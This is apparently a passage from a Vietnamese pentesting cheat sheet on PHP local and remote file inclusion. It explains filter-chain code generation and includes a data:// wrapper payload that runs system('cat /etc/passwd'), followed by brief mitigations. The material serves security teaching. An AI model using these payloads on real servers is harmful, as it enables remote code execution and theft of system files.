Tiếp theo, ta cần chú ý tới filter `convert.inconv.*`

Filter này sẽ giúp ta thực hiện chuyển đổi qua lại giữa các bảng mã khác nhau. Ví dụ ta muốn chuyển từ `UTF8` sang `UTF7` ta dùng `convert.iconv.UTF8.UTF7`. 

Một điểm đặc biệt là một số bảng mã khi mà chuyển đổi qua lại sẽ thực hiện chèn thêm nội dung vào phần text để chuẩn hóa đồng nhất thuật toán của bảng mã. Điều này tạo ra kẽ hở khi attacker có thể lợi dụng việc thêm các kí tự này để biến đổi các kí tự được thêm thành các kí tự theo mong muốn bằng cách chuyển đổi chúng sang các bảng mã khác qua 1 chuỗi biến đổi. 

Ví dụ ta muốn thu về kí tự U, ta có thể sử dụng:

- `convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932`

Khi chuyển từ `UTF8` qua `CSISO2022KR` ta sẽ luôn thu được thêm một chuỗi `\x1b$)C` được prepend thêm vào string. Tiếp tục, ép nó sang `ISO2022KR` và chuyển qua `UTF16`. Rồi lại tiếp tục ép nó sang `CP1133` rồi chuyển nó qua bảng mã `IBM932` ta sẽ thu được kí tự U.



Ta thấy kí tự U đã được tạo ra tuy nhiên đồng thời nó cũng tạo ra kí tự rác đứng ngay trước nó. Điều này làm ta chưa thể gen php code ngay lập tức được.

Và để loại bỏ kí tự rác này ta tiếp tục nhìn vào `convert.base64-decode`. Về mặt lý thuyết khi thực hiện decode base64 filter này sẽ bỏ qua bất kì kí tự nào là invalid base64. Ngoại trừ dấu '=', tuy nhiên ta cũng có thể loại bỏ nó bằng cách sử dụng filter `convert.iconv.UTF8.UTF7`.

Lợi dụng cơ chế bỏ qua này, ta có thể thực hiện base64 payload trước. Sau đó thực hiện biến đổi giữa các bảng mã để tìm ra payload đã được base64. Bước cuối cùng ta chỉ cần decode nó là đã thành công tạo được payload chuẩn.

Ngoài ra, nếu như ta chưa biết trên server tồn tại file nào ta có thể sử dụng `php://temp` (tạo ra 1 file ngẫu nhiên và không lưu vào bộ nhớ với nội dung là 1) hoặc`php://memory` làm resource.

Script: https://github.com/synacktiv/php_filter_chain_generator

#### Demo

Gen payload:



Thực hiện include:



### Remote File Inclusion

RFI là dạng mở rộng của LFI khi mà tham số `allow_url_include` được bật.

Kĩ thuật này chỉ có thể sử dụng khi tham số `allow_url_include` được bật (mặc định nó được set `Off`).

Lúc này tham số ta truyền vào include có thể là 1 URL. Và từ đó có những vector mới để khai thác mở ra.

- Truyền vào url dẫn tới một website trả về nội dung mà attacker có thể kiểm soát. Lúc này nếu nội dung chứa PHP nó sẽ thực thi giống như LFI.

- Sử dụng wrapper `data://`: `data://plain/text,<?php system('cat /etc/passwd'); ?>`



- Sử dụng wrapper `php://input`





### Others

https://hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#via-phpinfo-file_uploads--on

https://hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-eternal-waiting.html

https://hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#to-fatal-error

https://hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-segmentation-fault.html

ngnix temp file

https://vietnamese.opswat.com/blog/ingressnightmare-cve-2025-1974-remote-code-execution-vulnerability-remediation

https://hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-nginx-temp-files.html

## Cách phòng chống

- Không cho phép người dữ liệu từ người dùng đi vào include, require nếu không thực sự cần thiết
- Whitelist các wrapper được phép truy cập
- Sử dụng các kĩ thuật tương tự Path Traversal: https://github.com/son-ops/CheatSheet/tree/main/Path_Traversal#c%C3%A1ch-ph%C3%B2ng-ch%E1%BB%91ng

## References

https://hacktricks.wiki/en/pentesting-web/file-inclusion/index.html

https://hacktricks.wiki/en/pentesting-web/file-inclusion/via-php_session_upload_progress.html

https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/

https://hackmd.io/@endy/Skxms9eW2

https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp